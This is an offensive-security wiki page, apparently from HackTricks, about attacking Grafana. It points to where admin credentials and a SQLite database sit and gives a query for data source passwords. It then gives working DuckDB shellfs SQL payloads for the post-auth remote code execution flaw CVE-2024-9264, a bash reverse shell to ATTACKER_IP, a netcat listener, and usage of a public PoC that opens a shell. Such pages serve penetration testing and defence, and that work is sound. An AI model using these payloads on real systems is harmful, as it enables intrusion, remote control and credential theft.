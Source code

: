 # Grafana

{{#include ../../banners/hacktricks-training.md}}

## Interesting stuff

- The file **`/etc/grafana/grafana.ini`** can contain sensitive information such as **admin** **username** and **password.**
- Inside the platform you could **invite people** or **generate API keys** (might need to be admin)
- You could check which plugins are installed (or even install new)
- By default it uses **SQLite3** database in **`/var/lib/grafana/grafana.db`**
  - `select user,password,database from data_source;`

---

## CVE-2024-9264 – SQL Expressions (DuckDB shellfs) post-auth RCE / LFI

Grafana’s experimental SQL Expressions feature can evaluate DuckDB queries that embed user-controlled text. Insufficient sanitization allows attackers to chain DuckDB statements and load the community extension shellfs, which exposes shell commands via pipe-backed virtual files.

Impact
- Any authenticated user with VIEWER or higher can get code execution as the Grafana OS user (often grafana; sometimes root inside a container) or perform local file reads.
- Preconditions commonly met in real deployments:
  - SQL Expressions enabled: `expressions.enabled = true`
  - `duckdb` binary present in PATH on the server

Quick checks
- In the UI/API, browse Admin settings (Swagger: `/swagger-ui`, endpoint `/api/admin/settings`) to confirm:
  - `expressions.enabled` is true
  - Optional: version (e.g., v11.0.0 vulnerable), datasource types, etc.
- Shell on host: `which duckdb` must resolve for the exploit path below.

Manual query pattern using DuckDB + shellfs
- Abuse flow (2 queries):
  1) Install and load the shellfs extension, run a command, redirect combined output to a temp file via pipe
  2) Read back the temp file using `read_blob`

Example SQL Expressions payloads that get passed to DuckDB:
```sql
-- 1) Prepare shellfs and run command
SELECT 1; INSTALL shellfs FROM community; LOAD shellfs;
SELECT * FROM read_csv('CMD >/tmp/grafana_cmd_output 2>&1 |');
-- 2) Read the output back
SELECT content FROM read_blob('/tmp/grafana_cmd_output');
```
Replace CMD with your desired command. For file-read (LFI) you can instead use DuckDB file functions to read local files.

One-liner reverse shell example
```bash
bash -c "bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1"
```
Embed that as CMD in the first query while you have a listener: `nc -lnvp 443`.

Automated PoC
- Public PoC (built on cfreal’s ten framework):
  - [https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)

Usage example
```bash
# Confirm execution context and UID
python3 CVE-2024-9264.py -u <USER> -p <PASS> -c id http://grafana.target
# Launch a reverse shell
python3 CVE-2024-9264.py -u <USER> -p <PASS> \
  -c 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1"' \
  http://grafana.target
```
If output shows `uid=0(root)`, Grafana is running as root (common inside some containers).


## References

- [Grafana Advisory – CVE-2024-9264 (SQL Expressions RCE/LFI)](https://grafana.com/security/security-advisories/cve-2024-9264/)
- [DuckDB shellfs community extension](https://duckdb.org/community_extensions/extensions/shellfs.html)
- [nollium/CVE-2024-9264 PoC](https://github.com/nollium/CVE-2024-9264)
- [cfreal/ten framework](https://github.com/cfreal/ten)

{{#include ../../banners/hacktricks-training.md}}
